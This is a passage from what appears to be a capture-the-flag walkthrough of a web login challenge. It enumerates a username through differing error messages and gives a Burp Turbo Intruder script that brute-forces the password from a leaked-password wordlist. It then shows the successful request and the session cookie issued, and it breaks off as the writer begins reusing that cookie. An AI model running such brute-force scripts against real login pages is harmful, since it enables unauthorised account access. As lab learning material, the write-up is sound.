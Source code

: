 The username `access` returned a page without `Invalid Username` and with an `Invalid Password` message instead. Now that we know a real username, we can attack the password field. This time around, we will look for a page that doesn't respond with "Invalid Password". Turbo Intruder script:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for word in open('C:/Users/user/dev/SecLists/Passwords/Leaked-Databases/rockyou-50.txt'):
        engine.queue(target.req, word.strip())


def handleResponse(req, interesting):
    if 'Invalid Password' not in req.response:
        table.add(req)

```

Ok! `computer` is the password. Full request and response:

**Request:**
```
POST /secure-login HTTP/1.1

username=access&password=computer
```
```
HTTP/1.1 302 Found
Set-Cookie: securelogin=eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0%3D; expires=Thu, 17-Dec-2020 01:12:59 GMT; Max-Age=3600; path=/secure-login
```

URL decoded, the cookie we get is `eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=`. Let's put this in the browser as the value for a `securelogin` cookie, and see what happens when we refresh.
